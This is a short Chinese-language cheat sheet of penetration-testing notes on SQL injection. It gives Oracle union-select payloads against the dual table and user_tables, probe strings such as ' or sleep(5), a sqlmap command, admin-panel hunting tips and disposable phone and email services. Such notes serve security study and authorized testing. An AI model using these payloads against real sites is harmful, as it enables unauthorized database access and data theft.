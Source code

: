 ### Oracle（1521）

* dual是一个虚拟的表，oracle保证dual永远只有一条信息

~~~shell
#注入
id=1 order by 2;
id=-1 union select '1',null from dual;
id=-1 union select null,(select table_name from user_tables where rownum=1 and table_name<>'LOGMNR_SESSION_EVOLVE$') from dual;
# 因为在Oracle数据库中的select查询语句必须跟上查询列表，所以在union后面的select查询语句我们必须跟上from dual ，dual表是Oracle数据库中自带的虚拟表，可当万能用
# 参考
https://blog.csdn.net/weixin_48141183/article/details/121120365
~~~

### sqllite



### DB2

~~~shell
# 参考
https://blog.csdn.net/qq_39936434/article/details/95493242
~~~

### MongDB(27017)

~~~shell
# 参考
https://forum.butian.net/share/376
~~~

~~~shell
#寻找注入点
1、get、post、cookie等
2、扫目录
3、' ; " ; '); ' or sleep(5);  
4、工具
5、get：不同的参数试一试
6、post：搜索、注册（使用burp）
7、找后台：admin/login.php
8、找到了CMS等去找漏洞
'~'=0x7e
###sqlmap，burp和sqlmap联用，数据包爆破
1、把burp包写成文档，直接在sqlmap里面扫描
2、github-->sqlmap4burp
语句：
sqlmap -r 1.txt -p user --batch --dbms=mysql
# head 头部注入
要接收
有没有拼接
# 软件
robotform
手机号接码平台
十分钟临时邮箱：smsjisu.com
~~~
